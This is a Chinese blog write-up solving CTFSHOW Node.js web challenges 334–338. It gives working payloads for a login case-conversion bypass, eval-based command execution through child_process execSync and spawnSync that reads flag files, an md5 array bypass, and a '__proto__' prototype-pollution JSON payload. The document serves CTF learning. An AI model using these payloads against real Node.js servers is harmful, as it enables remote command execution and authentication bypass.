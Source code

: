 ```yaml
---
title: CTFSHOW nodejs 334-338
date: 2024-08-05 16:36:39
permalink: /pages/a11a87/
categories:
  - wp
tags:
  - 
author: 
  name: the0n3
  link: https://the0n3.top
---
```

# CTFSHOW nodejs 334-338

nodejs是跨平台的 JavaScript 后端语言，用于开发服务器端应用程序。它能够执行文件读取、数据库查询等服务器端操作

参考文章

[CTFSHOW-nodejs](https://blog.csdn.net/Yb_140/article/details/124510337)
[node官方文档](https://nodejs.cn/api/)
[node官方文档--子进程](https://nodejs.cn/api/child_process.html#child-process)

## web 334 审计

下载文件添加zip扩展名，解压得到两个js文件

user.js里存储了用户名，密码

![user](https://the0n3.top/medias/show-nodejs/1.png)

login.js里存放了登录的操作过程

```js
return name!=='CTFSHOW' && item.username === name.toUpperCase() && item.password === password;
```


关键语句，登录的用户名不能等于“CTFSHOW”,登录用户名的大写等于存放的用户名“CTFSHOW”，密码等于存放的密码“123456”


所以，name=ctfshow，pwd=123456

## web 335 命令执行

查看源码，?eval，提示get传参执行命令，类似php的eval函数

![exec](https://the0n3.top/medias/show-nodejs/2.png)

看了这个文档，带exec的应该都能直接执行命令吧(稍加思考)

```
# payload1，成功
?eval=require("child_process").execSync("ls;tac fl00g.txt");
# payload2，失败
?eval=require("child_process").exec("ls");
```


execSync可以执行，exec不能直接执行命令的原因，execSync 是同步函数，它可以直接在 require 语句后调用，并立即返回执行结果，可以直接在一行代码中调用它来执行命令并获取输出。那么同进程的其他命令执行函数也是如此？

## web 336 命令执行

上一题payload打不通了。换个函数，spawnSync()，不要直接像上一题一样写一大坨命令例如：

```
spawnSync("ls;tac flag.txt")
```

在这函数规定了似乎不允许

![spawnSync](https://the0n3.top/medias/show-nodejs/3.png)

这个函数执行不能直接输出到页面，用stdout,toString()方法打印出
来

```
?eval=require("child_process").spawnSync("tac",['fl001g.txt']).stdout.toString();
```

## web 337

关键代码，接受参数a，b。类似php的一个md5比较，数组绕过

```js
var a = req.query.a;
var b = req.query.b;
if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
    res.end(flag);
}
```

url?a[]=1&b[]=1


## web 338 原型链污染

查看routes目录下login.js源码

![login](https://the0n3.top/medias/show-nodejs/4.png)

补充：javascript中，**所有对象都继承自一个原型对象，原型对象增加新的属性时，其他对象都会继承**

```js
const user = {name:"cola"}
const tool = {tools:"Google"}
Object.prototype.lang = "Python"
console.log(tool.lang)
//现在，打印结果出现了tool对象不存在的属性lang，从原型对象那里继承得来
//Python
```

代码会通过copy函数，把请求的内容赋值给user对象，如果我们给__proto__原型对象添加一个新的属性来影响原型对象的属性继承，那么就可以达到secert对象的属性ctfshow='36dboy'的条件

![api](https://the0n3.top/medias/show-nodejs/6.png)

查看源码，登录接口需要传json数据

那这里就可以传一个json对象，{"__proto__":{"ctfshow":"36dboy"}}，这样就让secert继承到ctfshow=36dboy的属性